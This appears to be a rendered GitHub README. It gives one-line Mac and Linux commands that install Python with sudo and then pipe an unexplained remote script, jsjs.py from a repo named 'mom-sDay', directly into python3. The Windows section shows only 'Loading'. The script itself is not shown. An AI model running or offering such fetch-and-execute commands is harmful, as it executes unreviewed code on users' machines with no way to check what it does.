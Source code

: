 # Enjoy :)

## Mac
----
    curl -o python-installer.pkg https://www.python.org/ftp/python/3.13.3/python-3.13.3-macos11.pkg && \
    sudo installer -pkg python-installer.pkg -target / && \
    rm python-installer.pkg && \
    curl -s https://raw.githubusercontent.com/angel0hm/mom-sDay/refs/heads/main/jsjs.py | /Library/Frameworks/Python.framework/Versions/3.13/bin/python3
----
## Linux 

----

    curl -s https://raw.githubusercontent.com/angel0hm/mom-sDay/refs/heads/main/jsjs.py | python3
----
## Windows
----
    Loading
